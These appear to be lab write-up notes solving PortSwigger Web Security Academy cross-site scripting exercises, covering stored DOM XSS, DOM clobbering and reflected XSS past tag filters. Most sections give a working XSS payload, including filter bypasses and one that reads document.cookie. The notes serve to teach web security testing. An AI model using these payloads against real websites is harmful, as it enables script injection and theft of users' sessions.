 ### DOM XSS stored
Visit a blog page and create a random alphanumeric comment

View the source page and notice that angle brackets are encoded

Upload another comment with the following payload
```
<><img src=1 onerror=alert()>
```
What happens is that the first angle brackets string gets encoded but not other angle brackets

### DOM CLOBBERING to enable XSS
Visit a blog page and create a comment containing anchors
```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

The two anchors use the same ID are grouped together in a DOM collection and this will overwrites the defaultAvatar reference with this DOM collection

The name attribute in the second anchor is used to clobber the avatar property of the defaultAvatar object which calles an alert function on error
```
Return the blog page and create a second random comment and when the page load, the alert() is called

##  Cross-site scripting context
### Reflected XSS into HTML context with nothing encoded
On the search function, use the payload
```
"><img src=x onerror=alert()>
```
The payload first escape the input tag, only then the alert() will be triggered

### Stored XSS into HTML context with nothing encoded
On the search function, use the payload
```
</textarea><svg onload=alert()>
```
The payload first escape from the textarea tags, only then the alert() will be triggered

### Reflected XSS into HTML context with most tags and attributes blocked
Find a way on how to deliver the payload to the target url
```
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### Reflected XSS into HTML context with all tags blocked except custom ones
Find a way on how to deliver the payload to the target url
```
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called. 

